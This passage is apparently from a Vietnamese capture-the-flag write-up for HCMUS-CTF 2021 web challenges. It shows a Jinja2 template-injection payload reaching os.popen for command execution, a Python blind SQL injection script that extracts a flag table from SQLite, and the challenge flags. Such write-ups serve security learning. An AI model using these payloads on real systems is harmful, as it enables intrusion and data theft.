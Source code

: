 [![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/5.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/5.png)
Và tất nhiên là đời không như là mơ, giờ tìm cách `RCE` để tìm ra file flag.
Payload: `{{config.__class__.__init__.__globals__['os'].popen('<command>').read()}}`

Và `flag` nằm ở thư mục root
[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/6.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/6.png)

Đọc flag nà!!
[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/7.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/nothingness/7.png)

> Flag: `HCMUS-CTF{404_teMpl4t3_1njEctIon}`

###  EasyLogin

Bài cho ta một form login, và thử ngay thì biết được dính lỗi `SQL injection` và đang sử dụng `SQLite3`. Nhưng thử bypass login với `admin` thì được kết quả như này =))

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/easylogin/1.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/easylogin/1.png)
Ban đầu cứ nghĩ là password của admin là `flag` nên mình đã viết script để blind cái password nhưng khi có password login vào thì vẫn vậy -.-
Nên dựa vào hình trên có thể đoán được là `flag` đang nằm trong bảng khác, đoán query đằng sau là `SELECT * FROM users WHERE username='input' and passwd='input'`
Sau đấy viết lại script để exploit thì được tên bảng

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/easylogin/2.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/easylogin/2.png)

Script exploit:

```
#!/usr/bin/env python3
import requests
import string

r = requests.Session()
url = 'http://61.28.237.24:30100/'
flag = ''
index = 1
table_name = 'flagtablewithrandomname'
flag = 'HCMUS-CTF{easY_sql_1nj3ctIon}'

while True:
	for c in string.printable.replace('%', ''):
		# Get table structure
		#payload = f"' or substr((select sql from sqlite_master where tbl_name != 'users'),{index},1)='{c}'--" 

		#Get flag
		payload = f"' or substr((select group_concat(flag) from flagtablewithrandomname),{index},1)='{c}'--" 
		data = {'username': payload, 'passwd': '123'}
		resp = r.post(url , data = data)
		if "Nothing special here. Maybe an admin account will work?" in resp.text:
			flag += c
			index += 1
			print(flag)
			break
		if c == '}':
			exit()
```
